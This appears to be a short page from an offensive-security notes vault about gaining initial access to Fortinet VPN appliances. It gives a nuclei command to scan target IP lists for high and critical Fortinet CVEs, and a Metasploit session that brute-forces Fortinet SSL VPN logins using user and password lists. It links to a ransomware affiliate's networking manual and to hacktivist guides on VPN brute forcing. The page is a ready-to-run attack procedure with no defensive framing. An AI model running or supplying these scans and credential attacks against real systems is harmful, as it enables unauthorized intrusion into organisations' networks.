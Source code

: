 # Fortinet

Search Tag(s): #initial-access #exploitation #password-cracking #network-protocols #internet-of-things #metasploit-framework

## 01 - CVE

```
$ nuclei -l target_ips.txt -t ~/nuclei-templates -tags fortigate,fortinet -s high,critical --o vulnerable-vpn-output.txt
```

## 02 - Brute Force

> [!NOTE] Slow Bruteforce
> Since bruteforcing may take a long time. Use a shorter and most frequent [[VPN Wordlist|vpn wordlist]] to find low hanging fruit.

TODO: Fill this info

```
msf > use auxiliary/scanner/http/fortinet_ssl_vpn

msf auxiliary(scanner/http/fortinet_ssl_vpn) > set RHOSTS file:ip_targets.txt

msf auxiliary(scanner/http/fortinet_ssl_vpn) >set RPORT <PORT>

msf auxiliary(scanner/http/fortinet_ssl_vpn) > set USER_FILE users.txt

msf auxiliary(scanner/http/fortinet_ssl_vpn) > set PASS_FILE passwords.txt

msf auxiliary(scanner/http/fortinet_ssl_vpn) > set threads 10

msf auxiliary(scanner/http/fortinet_ssl_vpn) > run
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/D - Webapp Pentesting/0x02 - Components with Known Vulnerabilities/Checklist|Checklist: Components with Known Vulnerabilities]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/D - Webapp Pentesting/0x09 - Security Misconfiguration/Checklist|Checklist: Security Misconfiguration]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/D - Webapp Pentesting/0x02 - Components with Known Vulnerabilities/Helpers/Dorks/Internet of Things/VPN Appliances/Google Dorks|Google Dork: VPN Appliances]]

### VX Underground Papers

- [VX Underground Papers: Bassterloard (FishEye) Networking Manual](https://web.archive.org/web/20230531145531/https://papers.vx-underground.org/papers/Malware%20Defense/Malware%20Analysis%202021/2021-08-31%20-%20Bassterlord%20%28FishEye%29%20Networking%20Manual%20%28X%29.pdf)

### Hackers Arise

- [Hackers Arise: So...You Thought Your VPN Was Keeping you Safe and Secure?](https://www.hackers-arise.com/post/so-you-thought-your-vpn-was-keeping-you-safe-and-secure)

### Enlace Hacktivista

- [Enlace Hacktivista: VPN brute forcing](https://enlacehacktivista.org/index.php?title=VPN_brute_forcing)